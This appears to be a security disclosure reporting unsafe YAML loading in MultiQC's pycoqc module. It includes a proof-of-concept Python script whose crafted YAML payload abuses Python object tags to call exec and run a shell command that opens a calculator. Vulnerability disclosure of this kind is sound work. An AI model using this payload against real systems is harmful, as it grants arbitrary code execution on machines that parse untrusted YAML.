 # Description

`MultiQC` Aggregate results from bioinformatics analyses across many samples into a single report. 

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip3 install multiqc
```

### Run exploit.py
```
import os
#os.system('pip3 install multiqc')
from multiqc.modules.pycoqc import pycoqc
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
pycoqc.MultiqcModule.load_data('Anon-Artist',payload)
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
